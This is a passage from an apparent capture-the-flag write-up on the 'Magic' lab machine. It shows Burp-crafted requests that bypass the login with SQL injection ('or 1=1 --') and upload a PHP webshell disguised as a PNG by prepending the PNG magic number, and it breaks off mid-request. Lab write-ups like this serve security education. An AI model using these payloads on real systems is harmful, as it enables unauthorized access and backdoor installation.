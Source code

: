 ![login form](/media/2020.08/magic_02.png)

Some mechanism forbid us to put space in our username and password. We fire up
Burp and edit the request using the `Intercept` function so that our post
request look like the following

    :::text
    POST /login.php HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs

    username=aa' or 1=1 -- &password=a

We are then logged in and we can upload picture using the application.

![upload form](/media/2020.08/magic_03.png)

Obviously we want to upload some PHP file for instance
`/usr/share/webshells/php/simple-backdoor.php`. We intercept the request with
Burp and change the Content-Type to `image/png` and the image name to
`simple-backdoor.php.png`.

Our request is blocked and the application send us the following message
`<script>alert('What are you trying to do there?')</script><!DOCTYPE HTML>`

That where the name of the box is relevant. We need to add the
PNG [magic number](https://en.wikipedia.org/wiki/List_of_file_signatures) to
our file.

Still using Burp we add `aaaaaaaa` at the begging of our file.

![Burp request with aaaaaaaa](/media/2020.08/magic_04.png)

Using the Raw editor in Burp we replace our `a` (`61`) by the PNG's magic number
`89 50 4E 47 0D 0A 1A 0A`.

![Burp request with PNG's magic number](/media/2020.08/magic_05.png)

Our request now looks like the following (copy-pasting it will failed as the
magic number will not correctly be copied):

    :::text
    POST /upload.php HTTP/1.1
    Host: 10.10.10.185
    Content-Type: multipart/form-data; boundary=---------------------------1971341748341881315972996739
    Content-Length: 692
    Connection: close
    Cookie: PHPSESSID=gl7e03c4vb6ejee40tgeobjhfh

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="image"; filename="simple-backdoor2.php.png"
    Content-Type: image/png

    PNG
    
